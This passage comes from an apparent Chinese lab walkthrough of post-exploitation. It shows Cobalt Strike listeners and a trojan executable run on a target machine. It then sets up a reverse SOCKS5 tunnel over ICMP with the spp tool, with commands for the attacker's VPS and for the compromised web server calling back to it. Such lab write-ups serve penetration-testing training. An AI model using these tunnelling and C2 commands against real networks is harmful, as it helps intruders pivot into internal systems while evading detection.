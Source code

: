 建立监听127.0.0.1:9999和192.168.3.76:7777

![079](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-09dd593f0935b41ddf5173cc078f70279a28bbfe.jpg)

对ICMP-127的监听生成木马ch4nge2.exe，传到靶机运行

![080](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7d066c1add3bd5065b252de1d2547b477ae5e5c0.jpg)

CS监听上线

![081](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-17b9bd213b7fa17cc51ffcbefb0a226846cb20db.jpg)

![082](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-dd5c53b55306c179b62ce45be7dda3f0c5110b8e.jpg)

四、spp搭建socks5隧道
---------------

**反向代理用于进入目标内网，正向代理可配合远控工具进行上线**

```php
功能

支持的协议：tcp、udp、rudp(可靠udp)、ricmp(可靠icmp)、rhttp(可靠http)、kcp、quic
支持的类型：正向代理、反向代理、socks5正向代理、socks5反向代理
协议和类型可以自由组合
外部代理协议和内部转发协议可以自由组合
支持shadowsock/s插件，spp-shadowsock/s-plugin，spp-shadowsock/s-plugin-android
```

### 1 下载

```php
https://github.com/esrrhs/spp
https://github.com/esrrhs/spp/releases
```

### 2 V/PS执行

```php
./spp -type server -proto ricmp -listen 0.0.0.0
```

![083](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d2297df36033c157f9e2abe2e0cc84b90e46ecf9.jpg)

### 3 WEB服务器执行

```php
spp.exe -name &amp;quot;test&amp;quot; -type reverse_socks5_client -server v/ps -fromaddr :8080 -proxyproto tcp -proto ricmp

spp.exe -name &amp;quot;test&amp;quot; -type reverse_socks5_client -server 192.168.3.76 -fromaddr :8080 -proxyproto tcp -proto ricmp
```

![084](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6d811c68719436d39c16686a936eab1b1e7ecdfb.jpg)
